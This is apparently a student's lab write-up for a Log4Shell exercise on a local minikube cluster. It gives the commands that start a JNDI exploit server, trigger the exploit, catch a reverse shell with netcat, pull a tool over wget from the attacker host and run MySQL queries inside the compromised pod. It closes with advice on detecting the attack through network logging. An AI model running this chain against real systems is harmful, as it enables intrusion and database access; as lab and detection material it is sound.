


Once you've done the setup in the readme_original

## how to exploit 
launch this command with the file present in the exploit/ folder
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i host.minikube.internal -p 8080
```

then launch this command 

```
ruby ./script/exploit.rb & nc -lv 3000
```

you should get a shell on the machine

## how to execute mysql command


we need mysql client. but there is no internet on the pod

launch a php server next to the file `mysql_utlis.jar` with the command

```
php -S 0.0.0.0:8000
```

then from the server where you have a reverse shell download the tool I build in java with `wget`
I choosed this way for doing mysql request because the VM doesn't have internet and it's impossible to install some packet or really difficult 
So I built a little java binary that can make mysql request and display it from a tutorial I found on internet because I'm not a java developer at all. That was my first java program.  

```
wget host.minikube.internal:8000/mysql_utils.jar
```

inside the pod you can make query by using the tool this way:

``` 
java -jar mysql_utlis.jar db_name mysql_request 
```

To prove I did some sql request let's do some capture

```
java -jar mysql_utils.jar mysql "show databases;"
```



```
java -jar mysql_utils.jar sys "show columns from user_summary;"
```



# Question

## How could we detect this exploit
The answer may vary because of what the server have to do on a regulary basis. But the simpliest solution is probably this: 
The exploit involve that the server, which use the Log4j library vulnerable, make some ldap / rmi / http request. If you log the network somewhere you should be able to see that request from the server. So you could say that every time your server make that kind of request himself to an IP you don't know as an ldap rmi or http server you own. This is the things where you can detect the exploit. you can't really hide or make this exploit works other way. 

An organisation should always log his network and check for scetchy behaviour on it. Snort is a good tool to do this. 
If you know that you own a log4j component vulnerable that you won't fix, you should start to do this.

## How to prevent without fix


